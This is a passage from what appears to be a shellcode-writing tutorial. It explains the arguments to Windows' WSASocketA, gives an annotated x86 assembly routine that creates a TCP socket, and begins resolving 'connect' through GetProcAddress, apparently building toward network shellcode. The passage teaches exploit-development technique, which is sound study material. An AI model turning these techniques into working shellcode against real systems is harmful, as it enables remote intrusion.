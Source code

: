 <ul>
  <li>2 == AF_INET (IPv4)</li>
  <li>1 == SOCK_STREAM (TCP)</li>
  <li>6 == IPPROTO_TCP (TCP)</li>
  <li>NULL == no value for lpProtocolInfo</li>
  <li>0 == since we don't have an existing "socket group"</li>
  <li>NULL == no value for dwFlags</li>
</ul>

<p align="justify">
 The following assembly code implements the <code  style="background-color: lightgrey; color:black;"><b>WSASocketA</b></code> function 
</p>

```c
;call WSASocketA
XOR ECX, ECX       ;zero out ECX register 
PUSH EDX           ;null value for dwFlags                                    
PUSH EDX           ;zero value since we dont have an existing socket group
PUSH EDX           ;null value for lpProtocolInfo
MOV  DL, 0x6       ;IPPROTO_TCP
PUSH EDX           
INC  ECX           ;SOCK_STREAM (TCP)
PUSH ECX
INC  ECX           ;AF_INET (IPv4)
PUSH ECX   
CALL EAX           ;call WSASocketA
XCHG EAX, ECX      ;save socket descriptor into ecx in orddr to use it later

```

<p align="justify">
At the first line we zero out <code  style="background-color: lightgrey; color:black;"><b>ecx</b></code> register, and after that because we dont need additional socket attributes, we set the <code  style="background-color: lightgrey; color:black;"><b>dwFlags</b></code> argument with a null value. At the third line, because we dont want to perform  any socket group operation, we are pushing the zero value on the stack. In the same manner, at the fourth line, we dont need to define characteristics to the new socket, so we are pushing the null value on the stack. Furthermore, at the fifth line, we are setting the protocol to be used. Here we are using <code  style="background-color: lightgrey; color:black;"><b>TCP</b></code>. At lines 6-7, we are setting the type parameter to <code  style="background-color: lightgrey; color:black;"><b>SOCKET_STREAM (TCP)</b></code>. At lines 8-9, we are setting the internet protocol version 4 (IPv4). At the 10th line, we execute <code  style="background-color: lightgrey; color:black;"><b>WSASocketA</b></code>. At the 11th line, we are saving the socket descriptor to <code  style="background-color: lightgrey; color:black;"><b>ecx</b></code> register in order to use it later.   
</p>


<b><span style="color:green;font-size:26px">Get connect using GetProcAddress</span></b>

<p align="justify">
At this point we are ready to search for the address of connect function.
</p>

<ul>
  <li><code  style="background-color: lightgrey; color:black;"><b>connect</b></code></li>
</ul>
